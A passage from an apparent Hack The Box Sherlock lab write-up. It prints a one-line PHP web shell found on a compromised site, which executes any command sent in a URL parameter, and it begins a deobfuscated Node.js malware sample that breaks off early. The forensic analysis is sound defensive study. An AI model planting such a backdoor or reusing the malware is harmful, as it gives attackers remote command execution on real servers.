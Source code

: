 This line introduces code execution on the system that running this website so this might be another backdoor added by the attacker to still have a way to get back into this system.

```
$testc = $_GET['s1']; echo `$testc`;
```

And now we solved the lab
![ec2f96071bdf5d294aad8e2435ab3f31.png](../../../_resources/ec2f96071bdf5d294aad8e2435ab3f31.png)
https://labs.hackthebox.com/achievement/sherlock/1438364/859
* * *
## Appendix & Beyond Solved
```js
# deobfuscated JS code from https://obf-io.deobfuscate.io/ after renaming

const fs = require('fs');
const net = require("net");
const path = require("path");
const os = require('os');
const { pid } = require("process");

// Define the path for the lock file
const lockFilePath = path.join(os.homedir(), '.' + pid + ".lock");

// Check if the lock file exists
if (!fs.existsSync(lockFilePath)) {
```